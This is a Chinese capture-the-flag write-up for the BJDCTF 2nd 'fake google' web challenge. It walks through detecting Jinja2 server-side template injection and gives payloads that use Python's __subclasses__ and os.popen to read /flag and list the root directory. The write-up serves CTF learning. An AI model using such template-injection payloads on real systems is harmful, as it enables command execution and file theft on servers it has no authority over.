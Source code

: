 ```yaml
---
layout: post
title: BJDCTF 2nd Web Writeup
data: 2020-03-23
categories: Writeups
tags: 
 - CTF
 - Writeup
description:  
excerpt_separator: <!-- more -->
---
```


上周末BJD第二场，又是一届新生赛，尽管如此还是暴露出了很多问题。这段时间就先把这次总结出来的问题解决一下。



# fake google

{% raw %}

## 题目描述

题目用了谷歌搜索的前端页面，随便输入点东西，返回：

``` 
P3's girlfirend is : foo
```

原样返回了，再看看源码：

``` html
<!--ssssssti & a little trick -->
```

## 解题思路

都这么明显了，直接SSTI，先检测一下什么模板：

```
{{7*'7'}} => 7777777
```

是Jinja2。然后试了一下，发现"{%%}"标签和好多函数都不能用，最后importi了os，读取了flag，Payload：

```
{{''.__class__.__mro__[1].__subclasses__()[64].__init__.__globals__['__import__']('os').popen('base64 < /flag').read()}}
```

## 备注

1. 说实话并不知道为什么那些函数不能用了，回头看看出题笔记。

2. 好像也做过好几个SSTI了，当然只是是非常基础的类型，但每次都是找博客，直接抄抄改改人家的Payload。接下来好好整理总结一下SSTI。

3. Payload找可用函数的时候因为"{%%}"标签不能用，是手动二分出来的，其实可以用Python搞。

4. 还不是很理解Python的类什么的，回炉重造一波。

5. 贴一个官方的Payload：

    ```
    ?name={{ config.class.init.globals['os'].popen('ls /').read() }}
    ```
    

{% endraw %}
